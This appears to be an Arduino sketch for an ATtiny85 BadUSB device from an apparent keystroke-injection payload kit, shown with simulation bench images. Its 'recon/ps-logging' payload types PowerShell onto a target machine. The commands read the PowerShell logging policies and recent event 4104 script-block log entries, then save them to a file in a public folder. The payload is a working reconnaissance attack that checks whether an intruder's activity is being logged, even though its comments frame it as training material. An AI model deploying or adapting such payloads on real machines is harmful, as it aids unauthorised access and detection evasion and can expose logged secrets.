
This sketch was run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench; at power-on: PB2 HIGH.

Above: at 0.1 s.
At 15.8 s:

Timing chart, 0 to 17.3 s (numbered marks = the images above):


The sketch:

ps-logging.ino
```cpp
// recon/ps-logging - Tier 2
//
// Is PowerShell actually being logged, and has anything been recorded?
//
// This payload runs PowerShell. If script block logging is on, THIS SCRIPT
// IS ALREADY IN THE LOG WITH ITS FULL TEXT. Note the time. It is also a
// live demo of why -EncodedCommand is conspicuous - see train/explain-attack.
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "'=== SCRIPTBLOCK LOGGING POLICY ==='"
    "Get-ItemProperty 'HKLM:\\SOFTWARE\\Policies\\Microsoft\\Windows\\PowerShell\\ScriptBlockLogging' -EA 0|Format-List"
    "'=== MODULE LOGGING POLICY ==='"
    "Get-ItemProperty 'HKLM:\\SOFTWARE\\Policies\\Microsoft\\Windows\\PowerShell\\ModuleLogging' -EA 0|Format-List"
    "'=== TRANSCRIPTION POLICY ==='"
    "Get-ItemProperty 'HKLM:\\SOFTWARE\\Policies\\Microsoft\\Windows\\PowerShell\\Transcription' -EA 0|Format-List"
    "'=== EVENT 4104 SAMPLES (IF ANY) ==='"
    "Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational';Id=4104} -MaxEvents 3 -EA 0|Select TimeCreated,Message|Format-List|Out-String -Width 250"
    R_OUT("ps-logging.txt")
    R_SHOW("ps-logging.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
